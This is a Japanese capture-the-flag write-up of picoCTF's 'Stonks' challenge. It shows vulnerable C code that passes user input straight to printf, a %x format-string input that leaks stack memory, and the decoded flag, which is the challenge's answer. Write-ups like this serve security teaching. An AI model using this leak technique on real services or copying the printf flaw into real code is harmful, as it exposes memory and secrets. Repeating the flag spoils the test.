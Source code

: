 # Stonks:Binary Exploitation

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c]() `nc mercury.picoctf.net 33411`

# Solution

とりあえずプロンプトに`nc mercury.picoctf.net 33411`をなげてみる。
```
$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
1
Buying stonks with token:
1
Portfolio as of Fri Apr 26 02:07:58 UTC 2024


1 shares of VP
2 shares of YCWC
14 shares of VJMP
5 shares of NZIO
44 shares of SFO
87 shares of YR
154 shares of ZRZ
796 shares of CIJD
5 shares of EXT
Goodbye!
```
株を買うor状態を見ることができるらしい。添付のプログラムを見てみると、
flagはapi_bufに格納されているっぽい。それから以下の部分で何かしらできそう。
```
	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API
 ```
 user_bufを表示してくれるみたいなので、とりあえずAPI tokenを聞かれるところで`%x`を入力してみる。と、なんか出てきた。
 ```
 Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e4d3f0
Portfolio as of Fri Apr 26 02:13:52 UTC 2024


1 shares of SSY
10 shares of QTK
2 shares of VMZ
90 shares of V
360 shares of H
141 shares of JM
38 shares of THL
1180 shares of WCF
Goodbye!
```
`%x`をたくさん並べてみればflagが見られるかも。
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
95843b0804b00080489c3f7f17d80ffffffff19582160f7f25110f7f17dc7095831801958439095843b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe5007df7f52af8f7f254401ec2430010f7db4ce9
Portfolio as of Fri Apr 26 01:54:28 UTC 2024


1 shares of LV
1 shares of WD
27 shares of E
188 shares of OXJ
70 shares of AC
1189 shares of QYXJ
Goodbye
```
出てきた怪しげな謎文字列をhex→UTF-8にすると、
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3638553/8abfcb9d-b59c-2ce5-f71e-ab0891e34696.png)
4文字ずつ逆になっているflag(リトルエンディアンで記述されている)が出てきたので、並べ替える。

`picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`

ちなみに、Format String Attack(書式文字列攻撃)という、printf()などの関数の引数の特性を利用した攻撃方法らしい。
